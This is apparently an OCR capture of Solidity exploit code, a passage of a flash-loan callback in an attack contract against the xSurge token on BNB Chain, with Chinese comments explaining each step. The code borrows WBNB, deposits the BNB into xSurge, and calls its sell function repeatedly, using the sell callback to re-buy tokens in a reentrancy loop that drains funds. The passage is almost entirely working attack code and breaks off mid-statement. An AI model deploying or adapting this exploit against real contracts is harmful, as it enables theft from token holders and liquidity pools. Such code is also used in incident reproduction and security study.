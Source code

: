 ```
        // call uniswapv2factory to getpair
        address pair = IUniswapV2Factory(PancakeFactory).getPair(token0, token1);
        require(msg.sender == pair, "!pair");
        // check sender holds the address who initiated the flash loans
        require(_sender == address(this), "!sender");

        (address tokenBorrow, uint amount) = abi.decode(_data, (address, uint));
        uint256 price = ISurgeToken(payable(surgeTokenAddr)).calculatePrice();
        // console.log("price:", price); //46394463

        console.log("Attack WBNB blance:%s, xsurge balance:%s, balance:%s",
                    IERC20(WBNB).balanceOf(address(this)),
                    IERC20(surgeTokenAddr).balanceOf(address(this)),
                    address(this).balance);
        // 将从闪电贷中得到的10000 WBNB转化成自身的 BNB
        console.log("AttackContract get %s WBNB to BNB", amount);
        IWBNB(payable(WBNB)).withdraw(amount);
        console.log("Attack WBNB blance:%s, xsurge balance:%s, balance:%s",
                    IERC20(WBNB).balanceOf(address(this)),
                    IERC20(surgeTokenAddr).balanceOf(address(this)),
                    address(this).balance);
        // 将自身从闪电贷中的得到的WBNB，转化成BNB后，充值给xSurgerToken.
        console.log("AttackContract send %s BNB to xSurgeToken", amount);
        payable(surgeTokenAddr).call{value:amount}("");
        console.log("[Before]AttackContract WBNB blance:%s, xsurge balance:%s, balance:%s",
                    IERC20(WBNB).balanceOf(address(this)),
                    IERC20(surgeTokenAddr).balanceOf(address(this)),
                    address(this).balance);

        // 将得到的xSurge sell掉，在调用xSurge的sell方法时，sell方法的call会将程序控制权交到attackContract的receiver回调函数中。
        curSellNumber = 1;
        uint256 hackContractXsurge = IERC20(surgeTokenAddr).balanceOf(address(this));
        // console.log("hackContractXsurge count:", hackContractXsurge);
        console.log("%s times sell", curSellNumber);
        uint256 xSurgeTokenBnbQuantity = ISurgeToken(payable(surgeTokenAddr)).getBNBQuantityInContract();
        console.log("cur price:%s = quantity(%s) / _totalSupply(%s)",
                        price,
                        xSurgeTokenBnbQuantity,
                        xSurgeTokenBnbQuantity/price);
        ISurgeToken(payable(surgeTokenAddr)).sell(hackContractXsurge);

        // 将上面的方法连续调用多次。
        curSellNumber++;
        for (; curSellNumber<=maxSellNumber; curSellNumber++) {
            uint256 curPrice = ISurgeToken(payable(surgeTokenAddr)).calculatePrice();
            xSurgeTokenBnbQuantity = ISurgeToken(payable(surgeTokenAddr)).getBNBQuantityInContract();
            console.log("%s times sell",
                        curSellNumber);
            console.log("cur price:%s = quantity(%s) / _totalSupply(%s)",
                        curPrice,
                        xSurgeTokenBnbQuantity,
                        xSurgeTokenBnbQuantity/curPrice);
            hackContractXsurge = IERC20(surgeTokenAddr).balanceOf(address(this));
            //　每次sell时，控制权会来到receive函数中，在receive中向xSurgeToken转入BNB买入xSurge
            ISurgeToken(payable(surgeTokenAddr)).sell(hackContractXsurge);
        }
        console.log("[After loop]AttackContract xsurge balance:%s, BNB balance:%s",
                        ISurgeToken(payable(surgeTokenAddr)).balanceOf(address(this)),
                        address(this).balance);

        console.log("BNB-> WBNB:%s->%s",
```